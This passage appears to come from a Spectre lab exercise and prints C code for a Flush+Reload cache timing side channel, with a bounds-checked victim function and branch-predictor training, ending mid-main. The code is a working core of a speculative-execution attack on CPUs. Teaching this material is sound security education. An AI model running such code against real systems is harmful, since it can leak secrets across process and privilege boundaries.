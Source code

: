 ```c
```

## Task 3: Out-of-Order Execution and Branch Prediction

Compile the code below to observe CPU's out-of-order execution.
```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n", i);
    }
  } 
}

void victim(size_t x)
{
  if (x < size) {  
      temp = array[x * 4096 + DELTA];  
  }
}

int main() {
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
```